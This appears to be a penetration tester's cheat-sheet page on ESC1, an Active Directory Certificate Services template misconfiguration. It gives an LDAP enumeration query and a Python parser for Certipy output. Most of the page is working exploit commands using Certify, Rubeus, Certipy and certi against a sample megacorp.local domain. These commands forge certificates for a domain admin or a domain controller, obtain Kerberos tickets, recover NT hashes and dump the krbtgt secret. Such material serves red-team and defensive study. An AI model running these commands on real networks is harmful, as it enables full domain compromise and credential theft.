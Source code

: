 ```yaml
---
description: Modifiable SAN + Smart Card Logon or Client Authentication or PKINIT Client Authentication EKUs
---
```


# ESC1

- [https://elkement.wordpress.com/2020/06/21/impersonating-a-windows-enterprise-admin-with-a-certificate-kerberos-pkinit-from-linux/](https://elkement.wordpress.com/2020/06/21/impersonating-a-windows-enterprise-admin-with-a-certificate-kerberos-pkinit-from-linux/)

The vulnerable certificate template allows requesters to specify a SAN in the CSR as well as allows Smart Card Logon (`1.3.6.1.4.1.311.20.2.2`) or Client Authentication (`1.3.6.1.5.5.7.3.2`) or PKINIT Client Authentication (`1.3.6.1.5.2.3.4`) EKUs.




## Enumerate

Find template with this misconfiguration with native Active Directory module:

```powershell
PS > Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2) (pkiextendedkeyusage=1.3.6.1.5.2.3.4))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' -SearchBase 'CN=Configuration,DC=megacorp,DC=local'
```




## Exploit



### Certify

Request a certificate specifying the `/altname` as a domain admin:

```
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CorpCA /template:VulnTemplate /altname:DomAdmin
```

Convert `.pem` to a `.pfx` certificate:

```
$ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Request a TGT with the `.pfx` certificate:

```
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:DC01.megacorp.local /user:DomAdmin /certificate:cert.pfx /password:Passw0rdPfx! /ptt
```



### Certipy

Enroll a certificate with privileged subject in SAN:

```
$ certipy req megacorp.local/snovvcrash:'Passw0rd!'@CA01.megacorp.local -ca CorpCA -template VulnTemplate -alt 'administrator@magacorp.local'
```

Request TGT providing certificate and get corresponding NT hash automatically:

```
$ certipy auth -pfx administrator.pfx -domain megacorp.local -username administrator -dc-ip 192.168.1.11
```

Parse `.json` output to find vulnerable templates:

{% code title="esc1.py" %}
```python
import json, csv
import glob

with open(glob.glob('[0-9]*_Certipy.json')[0], 'r', encoding='utf-8-sig') as f:
	templates = json.load(f)['Certificate Templates']

data = []
for templ in templates.values():
	if 'Enrollee Supplies Subject' in templ.keys() and templ['Enrollee Supplies Subject']:
		if templ['Client Authentication'] and 'Enrollment Permissions' in templ['Permissions'].keys() and 'Enrollment Rights' in templ['Permissions']['Enrollment Permissions']:
			for perm in templ['Permissions']['Enrollment Permissions']['Enrollment Rights']:
				groups = []
				for group in ['Domain Users', 'Domain Computers', 'Authenticated Users', 'Everyone']:
					if group in perm:
						groups.append(perm)

			template_name = templ['Template Name']
			try:
				authorities = ','.join(templ['Certificate Authorities'])
			except TypeError:
				authorities = ''

			if groups:
				groups = ','.join(groups)
				data.append([template_name, authorities, groups])
				#print(f'"{template_name}","{authorities}","{groups}"')

header = ['TemplateName', 'CertificateAuthorities', 'DangerousGroups']
with open('esc1.csv', 'w') as f:
	writer = csv.writer(f, quoting=csv.QUOTE_ALL)
	writer.writerow(header)
	for row in data:
		writer.writerow(row)
```
{% endcode %}



### certi

- [https://gist.github.com/Flangvik/15c3007dcd57b742d4ee99502440b250](https://gist.github.com/Flangvik/15c3007dcd57b742d4ee99502440b250)

Enroll a certificate with privileged subject in SAN:

```
$ certi.py req megacorp.local/snovvcrash@CA01.megacorp.local CorpCA -k -n --dc-ip 192.168.1.11 --template VulnTemplate --alt-name 'DC01$'
```

Request TGT providing certificate:

```
$ base64 -w0 DC01.pfx > DC01.pfx.b64
$ python3 gettgtpkinit.py megacorp.local/'DC01$' -pfx-base64 `cat DC01.pfx.b64` -pfx-pass admin -dc-ip 192.168.1.11 DC01.ccache
```

Request NT hash providing TGT or DCSync:

```
$ KRB5CCNAME=DC01.ccache python3 getnthash.py megacorp.local/'DC01$' -dc-ip 192.168.1.11 -key <AS_REP_ENC_KEY>
$ KRB5CCNAME=DC01.ccache secretsdump.py DC02.megacorp.local -dc-ip 192.168.1.11 -just-dc-user 'MEGACORP\krbtgt' -k -no-pass
```

